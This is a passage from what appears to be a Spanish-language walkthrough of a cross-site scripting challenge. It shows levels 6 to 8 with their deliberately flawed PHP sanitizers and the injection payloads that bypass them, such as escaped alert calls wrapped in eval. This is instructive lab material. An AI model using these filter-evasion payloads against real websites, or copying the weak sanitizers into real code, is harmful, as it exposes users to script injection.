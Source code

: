 Inyección:

```html
<script>\u0061lert('l33t')</script>
```

### Level 7

```
XSS 7 	No more Unicode escaping.. there are a lot of smart guys out of there. Finally alert is blocked, isn't it? 	MEDIUM 	Am I still able to obfuscate?
```

Función sanitizadora:

```php
function Sanitizer($search){
  // No Unicode escaping.. there are a lot of smart guys out of there...
  // Thanks to stackoverflow.com > http://bit.ly/SO_decode_unicode
  $search = preg_replace_callback('/\\\\u([0-9a-fA-F]{4})/', function ($m) {
	return mb_convert_encoding(pack('H*', $m[1]), 'UTF-8', 'UCS-2BE');
  }, $search);
   
  //No alert no party!  
  $search = preg_replace('#alert#is', NOALERT, $search);

  return 'Your search "<b>' + $search + '</b>" did not match any products';
}
```

Inyección:

```html
<script>eval('\x61lert(\'l33t\')')</script>
```

### Level 8

```
XSS 8 	You need to break a commented line 	ADVANCED 	Breaking bad...
```

Función sanitizadora:

```php
function Sanitizer($search){
  // Breaking bad... 
   
  //No alert no party!  
  $search = preg_replace('#alert#is', NOALERT, $search);

  return <<<RESULT
   No products here.. 
   <!-- todo: debug this -->
   <script>
      //console.debug( $search );
   </script>
RESULT;
}
```
